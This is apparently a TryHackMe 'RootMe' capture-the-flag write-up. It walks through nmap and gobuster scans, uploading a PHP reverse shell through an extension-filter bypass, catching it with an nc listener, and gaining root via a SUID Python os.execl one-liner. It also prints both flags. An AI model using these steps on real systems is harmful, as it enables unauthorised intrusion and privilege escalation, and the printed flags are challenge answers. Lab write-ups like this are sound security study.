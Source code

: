 # Rootme || Try hack me
# irony  || May, 3 2021

ip = 10.10.114.31

1. namp scan 
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-03 20:19 IST
Nmap scan report for 10.10.114.31
Host is up (0.23s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE      VERSION
22/tcp   open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp   open     http         Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
3920/tcp filtered exasoftport1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 59.57 seconds


```

starting with website scan with go buster

```
gobuster dir -u http://10.10.114.31/ -w /usr/share/dirb/wordlists/common.txt

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.114.31/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/05/03 21:15:53 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
===============================================================
2021/05/03 21:17:52 Finished
===============================================================

```

i went to the /panel saw that there is a upload system 
so i uploaded a php reverse shell with extension .php5 and it worked

then started a litenser
```
nc -lnvp 1234

```
then 
```
curl 'http://10.10.114.31/uploads/php_reverse_shell.php5'
```

after getting the reverse shell 

i searched for the user.txt file 

```
find / -type f -name user.txt 2> /dev/null
/var/www/user.txt
cat /var/www/user.txt

THM{y0u_g0t_a_sh3ll}
```

Now trying to escalate our privilege

https://gtfobins.github.io/gtfobins/python/#suid

```
find / -user root -perm /4000
/usr/bin/python

cd /usr/bin/
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

cd /root
ls
root.txt
cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}

```

--------------------------------------------END-------------------------------------------------------